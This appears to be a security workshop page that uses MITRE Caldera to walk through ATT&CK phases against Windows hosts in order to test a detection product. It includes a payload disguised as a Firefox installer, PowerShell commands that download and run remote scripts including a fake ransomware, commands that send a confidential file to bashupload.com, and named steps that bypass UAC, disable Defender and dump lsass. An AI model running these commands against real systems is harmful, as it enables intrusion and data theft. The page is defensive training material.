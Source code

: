 ```yaml
---
title: "Windows"
chapter: false
weight: 41
pre: "<b>4.1 </b>"
---
```



### ATT&CK Phases
#### Reconnaissance
This step was skipped because we already know the target of our attack (Windows Instances)

---
#### Resource Development
In this demo, we are going to use Mitre Caldera as our attacking tool.

CALDERA™ is a cybersecurity framework developed by MITRE that empowers cyber practitioners to save time, money, and energy through automated security assessments.

We are using Caldera as one of the tools to help us evaluate how Cloud One Workload Security and Vision One could empower companies to improve their security posture and risk management.

- Mitre Caldera - Pre-Configuration

Before you start with the attack simulation, be sure you updated the Mitre Caldera Global Configurations.
You must replace the IP Address (0.0.0.0) with the Public IP Address you are using to access the Mitre Caldera management console.

{{< youtube id="V4AxIqFGqrU" >}}

---
#### Initial Access and Execution
In this step you are going to create a malicious payload (Windows Based), packing it into an executable file (that simulates the Mozilla Firefox Installation), and then uploading it to filebin.net. The output URL will be used to drop this 0-day malware to the target Windows Computer.

You can generate the Caldera Agent manually, or copy and paste the following script on the https://ps2exe.azurewebsites.net/ website. Just make sure you replaced the $server variable with the Caldera Public IP Address. Save the file generated as Firefox.exe. 

<b>Windows Payload - Add the following code on top of the Caldera Payload</b>

- Invoke-WebRequest -Uri "https://download.mozilla.org/?product=firefox-51.0.1-SSL&os=win64&lang=en-US" -OutFile c:\firefox.exe;
- Start-Process -FilePath c:\firefox.exe -Args "/s" -Verb RunAs -Wait;

<b>After you export the file, upload it to filebin.net and take a note of the output url.</b>

References:

- PS1toEXE - https://ps2exe.azurewebsites.net/
- Online Storage - https://filebin.net/

{{< youtube id="RNCU0wbkEuk" >}}


---
#### Persistence
Using Mitre Caldera, you can deploy additional backdoors that will ensure you can keep accessing the affected computers in the future:

In our case, we can run a remote instruction on the affected Linux computer and deploy a secondary agent (bot).

{{< youtube id="ECAPmLFwiXY" >}}

---
#### Privilege Escalation
Using Mitre Caldera, you can deploy the Technique "UAC bypass registry (T1548.002) - Set a registry key to allow UAC bypass". It will help to to expand the impact of this attack and get additional permissions on the affected OS.

{{< youtube id="o-hCzQjhNLs" >}}

---
#### Defense Evasion
Using Mitre Caldera, you can deploy the Technique "Disable Windows Defender All (T1562.001) - Disable Windows Defender All".

{{< youtube id="w5pnVRvGS6k" >}}

---
#### Credential Access
Using Mitre Caldera, you can deploy the Technique "Leverage Procdump for lsass memory (T1003.001) - Dump lsass for later use with mimikatz". You may find sensitive information with this technique.

After you run the initial command, run also the following instructions (available on the Mitre Caldera "Potential Links" menu).

- PowerShell Invoke MimiKats

- Powerkatz (Staged)	

{{< youtube id="syO6uPBEhQc" >}}

---
#### Discovery
Using Mitre Caldera, you can deploy the Technique "Collect ARP details (T1018)" and "Find System Network Connections (T1049) - Find System Network Connections".

As result of the previous command, you will find active connections on the network 10.0.10.*. With this information, you can execute the following commands to find other active hosts running on the same subnet.

- Invoke-WebRequest -Uri https://raw.githubusercontent.com/BornToBeRoot/PowerShell_IPv4NetworkScanner/main/Scripts/IPv4NetworkScan.ps1 -OutFile C:\Users\Public\IPv4NetworkScan.ps1;
- powershell C:\Users\Public\IPv4NetworkScan.ps1 -IPv4Address 10.0.10.0 -Mask 255.255.255.0 -DisableDNSResolving;
- foreach ($port in 444..3390) {If (($a=Test-NetConnection 10.0.10.12 -Port $port -WarningAction SilentlyContinue).tcpTestSucceeded -eq $true){ "TCP port $port is open!"}}

{{< youtube id="lfZNiSudO5o" >}}


---
#### Lateral Movement
As a next step of this demo, we are going to do lateral movement and exfiltrate sensitive data from the 10.0.10.12 host.

Then using the Potential Links, select the technique "View remote shares (T1135)", and update it with the 10.0.10.12 IP Address.

{{< youtube id="x2drqoxbxPc" >}}

---
#### Command & Control
The target computer is already being controlled by the attacker/c&c server.

---
#### Collection
Using Mitre Caldera, you can deploy the Technique "Find files (T1005) - Locate files deemed sensitive". Using this technique you can search for sensitive date hosted on the affected computers.
 Replace the original directory with c:\confidential, and the content of the folder with *.txt.

- CMD - type c:\confidential\confidential.txt

{{< youtube id="5cW3VaHpMis" >}}

---
#### Exfiltration
Now that we have access to the secondary server, its time to exfiltrate the sensitive data we found on the confidential directory. Use the following powershell commands to exfiltrate the data to the bashupload website.

- Invoke-WebRequest -Uri https://bashupload.com/ -Method Post -ContentType multipart/form-data  -Body c:\confidential\confidential.txt
- Invoke-RestMethod -Uri https://bashupload.com/ -Method Post -InFile c:\confidential\confidential.txt -UseDefaultCredentials

{{< youtube id="PY8fKsBejy4" >}}

---
#### Impact 1 - (Fake) Ransomware
Now its time to encrypt the affected servers (Target 1).

After having the Risk Control Rule in place, you can execute the following commands.

- PS1 - powershell.exe -command Invoke-WebRequest -Uri https://github.com/andrefernandes86/demo-v1-ransomware/raw/main/download.ps1 -OutFile C:\Users\Public\Ransom.ps1;

- PS1 - powershell.exe -command C:\Users\Public\Ransom.ps1;

{{< youtube id="ESWP8knaRl4" >}}

---
## Reviewing the Detections 
Review the Vision One Portal (Risk Insights and XDR / Workbenchs and OAT) searching for the evidences of the instructions executed during this demo.

{{< youtube id="A-mIm0YG-OM" >}}
